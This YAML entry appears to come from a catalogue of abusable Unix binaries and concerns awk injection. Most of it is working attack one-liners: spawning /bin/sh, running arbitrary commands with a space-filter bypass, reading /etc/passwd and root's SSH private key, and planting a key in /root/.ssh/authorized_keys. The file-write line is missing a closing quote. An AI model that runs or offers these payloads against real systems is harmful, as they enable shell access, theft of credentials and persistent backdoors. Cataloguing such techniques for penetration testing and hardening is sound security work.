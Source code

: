 ```yaml
---
description: Awk injection is no different than other command injection vulnerabilities, including SQL injection. Awk is an incredibly powerful (yet simple) tool, so the possibilities are endless. See [this report](https://bugs.chromium.org/p/chromium/issues/detail?id=766253) for an example.
functions:
  shell:
    - description: Can be used to execute arbitrary commands on a system and spawn shells.
      code:
        awk 'BEGIN{system("/bin/sh")}'
  command:
    - description: Can be used to execute arbitrary commands on a system.
      code: |
        awk 'BEGIN {system("ls"); exit}' /dev/null
    - description: The file must exist and command will be executed as many rows there are in the file.
      code: |
        awk 'system("ls")' /etc/passwd
    - description: If spaces cannot be inserted, we can use `sprintf(%c,32)` to emulate them.
      code: |
        awk '//{}BEGIN{system(sprintf("uname%c-aa",32))}'
  file-read:
    - description: Read an arbitrary file.
      code: |
        awk 'BEGIN{while((getline line<"/etc/passwd")>0){print line}}' /dev/null
    - description: Print the contents of multiple files.
      code: |
        awk '//' /etc/passwd /etc/hostname /root/.ssh/id_rsa
  file-write:
    - description: Write to an arbitrary file
      code: |
        awk 'BEGIN{print "ssh-rsa ..." > "/root/.ssh/authorized_keys}' /dev/null
---
```

